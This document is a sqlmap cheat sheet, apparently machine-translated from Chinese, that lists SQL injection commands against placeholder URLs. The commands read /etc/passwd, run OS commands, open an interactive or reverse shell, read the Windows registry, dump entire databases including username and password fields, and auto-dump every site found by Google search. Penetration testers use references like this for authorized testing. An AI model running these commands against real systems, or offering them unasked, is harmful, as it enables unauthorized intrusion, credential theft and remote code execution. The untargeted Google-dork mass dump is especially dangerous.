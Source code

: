 `Sqlmap -u "http://url/news?id=1" --data "id=3"` 				#postinjection  
`Sqlmap -u "http://url/news?id=1" -v 1 -f` 					#fingerprint database type  
`Sqlmap -u "http://url/news?id=1" --proxy "http://127.0.0.1:8118"` # Agent injection  
`Sqlmap -u "http://url/news?id=1" --string "STRING_ON_TRUE_PAGE"` #Specify keywords  
`Sqlmap -u "http://url/news?id=1" --sql-shell` 				#Execute the specified sql command  
`Sqlmap -u "http://url/news?id=1" --file /etc/passwd`
`Sqlmap -u "http://url/news?id=1" --os-cmd=whoami` 			#Execute system commands  
`Sqlmap -u "http://url/news?id=1" --os-shell`					#system interactive shell  
`Sqlmap -u "http://url/news?id=1" --os-pwn` 					#bounce shell  
`Sqlmap -u "http://url/news?id=1" --reg-read`				# read win system registry  
`Sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log"` 		# Save the progress  
`Sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume` # Restore saved progress  

-v parameter, level of detail, observe how sqlmap is trying to judge a point and read data.

### There are seven levels, the default is 1:

0, only show python errors and serious information. 
 
1. Display basic information and warning information at the same time. (default)  
 
2. Display debug information at the same time.  
 
3. Display the injected payload at the same time.  
 
4. Display HTTP requests at the same time.  
 
5. Display the HTTP response header at the same time.  
 
6. Display the HTTP response page at the same time.  


## Use sqlmap to remove pants
The –dump parameter is used to remove the pants. Add the whole -all(–dump-all) if you drag the whole  

Specify the field specified in the specified table:  

`sqlmap -u "http://xxx/index.php?id=1" --dump -D DBName -T TableName -C "id,username,password"  `  

Take off the entire pants:  

`sqlmap -u "http://xxx/index.php?id=1" -D DBName --dump-all`  


## Advanced usage

`-p` name Multiple parameters such as index.php?n_id=1&name=2&data=2020 We want to specify the name parameter to inject  

`Sqlmap -g "google syntax" --dump-all --batch` #google search injection point automatically runs out all fields, you need to ensure that google.com can access normally  

`--technique` test specifies the type of injection\technology used  
Test all injection techniques by default without parameters  
• B: Boolean based SQL blind  
• E: based on error sql injection  
• U: based on UNION injection  
• S: stacked sql injection  
• T: Time-based blind  
